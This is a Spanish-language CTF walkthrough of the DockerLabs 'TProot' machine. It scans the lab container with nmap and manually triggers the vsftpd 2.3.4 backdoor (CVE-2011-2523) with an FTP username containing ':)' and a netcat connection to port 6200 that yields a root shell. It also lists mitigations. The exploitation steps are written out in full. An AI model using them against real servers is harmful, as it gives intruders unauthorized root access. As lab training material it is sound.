





# TProot - DockerLabs

| Campo      | Detalle                   |
| ---------- | -------------------------- |
| Plataforma | DockerLabs                |
| Dificultad | Muy fácil                 |
| Sistema    | Linux (contenedor Docker) |
| IP         | 172.17.0.2                |
| Fecha      | 25/10/2026                |

## Resumen

El acceso inicial se obtiene explotando manualmente el backdoor del servicio **vsftpd 2.3.4** ([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)): al iniciar sesión FTP con un usuario que contiene la secuencia `:)`, el servicio abre una shell de root escuchando en el puerto 6200/tcp, a la que se conecta con `netcat`. El propio backdoor entrega directamente una shell como usuario `root`, por lo que no es necesaria una fase adicional de escalada de privilegios.

## Despliegue del laboratorio

Se despliega la máquina vulnerable con el script proporcionado por DockerLabs:

```bash
sudo bash auto_deploy.sh tproot.tar
```

El script indica que la máquina ha quedado desplegada y asigna la siguiente IP:

```
Máquina desplegada, su dirección IP es —> 172.17.0.2
```



## Reconocimiento

Se lanza un escaneo de puertos completo con [Nmap](https://nmap.org/book/man.html):

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Parámetros empleados:

- `-p-`: escanea los 65535 puertos TCP, no solo los más comunes.
- `-sS`: escaneo SYN (half-open), rápido y discreto.
- `-sC`: ejecuta los scripts NSE por defecto para obtener más información de cada servicio.
- `-sV`: detección de versión de los servicios.
- `-T5`: plantilla de temporización más agresiva, para acelerar el escaneo.
- `-n`: no resuelve DNS inverso.
- `-Pn`: omite el descubrimiento de host (asume que está activo), necesario porque muchos entornos Docker/CTF no responden a ping.
- `-vvv`: salida muy detallada, útil para ver los puertos según se van descubriendo.

Durante el escaneo se descubren dos puertos abiertos:

```
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
```



El detalle del escaneo de servicios muestra lo siguiente:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Unix
```



El puerto 80 solo expone la página por defecto de Apache (sin contenido adicional relevante), por lo que el foco del análisis se centra en el puerto 21.

## Enumeración

La versión **vsftpd 2.3.4** corresponde a una release comprometida: entre el 30 de junio y el 3 de julio de 2011, un atacante sustituyó el archivo `vsftpd-2.3.4.tar.gz` alojado en el sitio oficial por una versión modificada que incluía una puerta trasera (backdoor) intencionada. Esta vulnerabilidad está catalogada como [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) (CWE-78, inyección de comandos del sistema operativo).

El backdoor se activa al enviar, como nombre de usuario durante el login FTP, una cadena que contenga la secuencia de caracteres `:)` (un "smiley"). Al detectar esa secuencia, el proceso abre un listener en el puerto **6200/tcp** que entrega una shell de comandos con privilegios de **root**, sin necesidad de autenticación válida ni de ningún exploit adicional: basta con conectar por FTP e introducir ese usuario.

Existen módulos públicos que automatizan esta explotación, como el módulo de Metasploit `exploit/unix/ftp/vsftpd_234_backdoor` ([Rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)) o el exploit publicado en [Exploit-DB #17491](https://www.exploit-db.com/exploits/17491). En este caso se opta por disparar el backdoor manualmente, sin herramientas automatizadas, para mostrar el funcionamiento interno de la vulnerabilidad.

## Explotación / acceso inicial

Se conecta al servicio FTP con un cliente estándar:

```bash
ftp 172.17.0.2
```

El servidor responde con su banner, confirmando la versión vulnerable:

```
Connected to 172.17.0.2.
220 (vsFTPd 2.3.4)
Name (172.17.0.2:kali): user:)
331 Please specify the password.
Password:
```

Al introducir como nombre de usuario `user:)` (cualquier cadena que contenga `:)` es válida), el proceso vsftpd detecta la secuencia e inicia en segundo plano un listener en el puerto 6200/tcp, independientemente de si la contraseña introducida después es correcta.



A continuación, en otra terminal, se conecta con `netcat` al puerto donde queda escuchando la shell:

```bash
nc 172.17.0.2 6200
```

Se comprueba el usuario obtenido:

```bash
whoami
root
```

La shell se obtiene directamente como **root**, sin pasos intermedios de escalada.



## Escalada de privilegios

No es necesaria: el backdoor de vsftpd 2.3.4 entrega directamente una shell con privilegios de `root`, ya que el proceso del servicio se ejecuta con esos privilegios y el comando lanzado por la puerta trasera hereda ese mismo contexto.

## Conclusiones y mitigaciones

- **Vulnerabilidad principal**: la versión 2.3.4 de vsftpd distribuida entre el 30 de junio y el 3 de julio de 2011 contenía una puerta trasera insertada de forma maliciosa en el código fuente oficial ([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)). Cualquier usuario FTP que contenga `:)` dispara la apertura de una shell de root en el puerto 6200/tcp, sin necesidad de credenciales válidas.
- **Mitigación**: utilizar exclusivamente binarios de vsftpd descargados de fuentes oficiales verificadas (comprobando hashes/firmas), actualizar a una versión no comprometida, y evitar ejecutar servicios FTP con privilegios de root.
- **Buenas prácticas generales**: no exponer servicios FTP a redes no confiables sin necesidad, verificar la integridad de los paquetes de software antes de desplegarlos, mantener un inventario de versiones expuestas y aplicar un proceso de gestión de parches para detectar software obsoleto o comprometido.

## Herramientas utilizadas

- [`nmap`](https://nmap.org/) — escaneo y enumeración de puertos y servicios.
- `ftp` — cliente FTP estándar usado para disparar manualmente el backdoor.
- [`netcat`](https://nmap.org/ncat/) — conexión a la shell abierta por el backdoor en el puerto 6200/tcp.

## Referencias

- [CVE-2011-2523 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- [VSFTPD 2.3.4 - Backdoor Command Execution — Exploit-DB #17491](https://www.exploit-db.com/exploits/17491)
- [Módulo Metasploit `exploit/unix/ftp/vsftpd_234_backdoor` — Rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
- [HackTricks — Pentesting FTP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
